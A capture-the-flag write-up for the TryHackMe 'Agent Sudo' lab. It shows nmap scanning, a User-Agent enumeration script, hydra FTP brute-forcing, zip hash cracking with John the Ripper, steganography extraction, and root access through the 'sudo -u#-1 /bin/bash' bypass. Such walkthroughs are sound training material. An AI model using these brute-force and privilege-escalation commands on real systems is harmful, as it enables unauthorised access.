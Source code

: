 # Writeup for [Agent Sudo](https://tryhackme.com/room/agentsudoctf) from [Try Hack Me](https://tryhackme.com/)

## Table of Contents
<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->


## Machine Information

* OS			: Linux
* Difficulty	: Easy

## Information Gathering and Enumeration

As usual, we're going to start with a simple nmap scan to enumerate services running on the box.

```bash
nmap -sCV -oN nmap/initial 10.10.234.216 -v
```
>Arguments:
>1. -sC -> Use nmap default scripts
>2. -sV -> Enumerate Versions
>3. -oN -> Output in Normal format
>4. -v -> Verbose

Looking at the nmap scan, we see 3 ports open. `FTP` on port 21, `SSH` on port 22, and `HTTP` on port 80.

![nmap-results](./img/nmap-results.png)

Let's start with `FTP` and then the webserver. We're going to try to login to FTP using **anonymous login**, using the credentials `anonymous:anonymous`

```bash
ftp 10.10.234.216
```

But doing that doesn't seem to work, so let's move on to the webserver first.

Navigating to the webserver, we are greeted with a page that tells us that we need to use our codename as the `User-Agent` to access the site.

![page](./img/page.png)

I'm going to write a python script to enumerate potential user-agents.

```python
#!/usr/bin/env python

import string
import requests

url = 'http://10.10.234.216' # URL of the webserver

alph = string.ascii_uppercase # set variable alph to contain all uppercase letters

for letter in alph: # Loop through alph variable
    header = {
                "User-Agent" : letter # Set User-Agent to current letter
            }

    r = requests.get(url,headers=header) # Do a request on the page with the crafted header

    if 'codename' not in r.text: # Check if the string 'codename' is not in the output
        print("POTENTIAL HIT",letter)
        print(r.text) # Print the output

```
Run the script and we get a potential `User-Agent` and the contents of the page.

![script-out](./img/script-out.png)

We see that the `chris` user has a weak password, meaning we can potentially bruteforce his password. Remember that we have 2 other sevices which is `FTP` and `SSH`. Let's start bruteforcing `FTP` using `hydra`.

## Exploitation

```bash
hydra -l chris -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ftp://10.10.234.216
```
>Arguments:
>1. -l -> Username
>2. -P -> Password list
>3. ftp://[ip] -> Attack the `FTP` service on the ip

![ftp-brute](./img/ftp-brute.png)

Now we can use the above credentials to login to `FTP`. We've successfully logged in to the `FTP` server, and we found 3 files. Let's download all of them to inspect these files even further.

![ftp](./img/ftp.png)

Reading the `.txt` file, we see that `Agent J`'s password is stored inside these images. Looks like we're getting some [steganography](https://searchsecurity.techtarget.com/definition/steganography).

![to-j](./img/to-j.png)

I'm going to use `binwalk` to run some basic recon on these images.

![binwalk](./img/binwalk.png)

We see that `cutie.png` contains an **encrypted** `Zip` archive. So let's extract it.

```bash
binwalk -e cutie.png
```

![zip](./img/zip.png)

Since we know that the zip file is encypted ( from binwalk output ), let's use `John The Ripper` to crack the password for it. 

First we need to make sure that we create a hash that john can read, so we're going to use a script called `zip2john`

```bash
zip2john 8702.zip > hash
```
Then we need to just crack the hash with john.

```bash
john hash --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

![zip-password](./img/zip-password.png)

We just need to unzip the file. Since the `unzip` command didn't work, I'm going to use `7z` instead.

```bash
7z e 8702.zip
```

![extract](./img/extract.png)

Reading the contents of `To_agentR.txt`, we see that there is a weird string that looks random. We can decode it with [cyberchef](https://gchq.github.io/CyberChef/) but from experience, I suspect that this is base64 and tried to decode it.

![steg-pass](./img/steg-pass.png)

This string may be a password for the other image that we haven't played with. So I ran `steghide` on the image and tried the decoded string as the password.

We found a secret message with credentials.

![steghide](./img/steghide.png)

Now let's try to SSH in to the box with these credentials.

![james](./img/james.png)

## Privilege Escalation

As always, we're going to start with the low hanging fruit. We should check for `sudo` privileges with `sudo -l` since we already know `james`'s password.

We see that we can run `/bin/bash` but we can't do it as the `root` user. But I had my suspicions and checked for the sudo version as well.

![sudo](./img/sudo.png)

Seeing this, I started googling for sudo exploits on that particular version. After some time, I found this [PoC](https://www.exploit-db.com/exploits/47502) from exploitdb.

This looks exactly like the scenario that we are in. So let's try the exploit.

```bash
sudo -u#-1 /bin/bash
```
Running that exploit, we get a root shell. 

![root](./img/root.png)

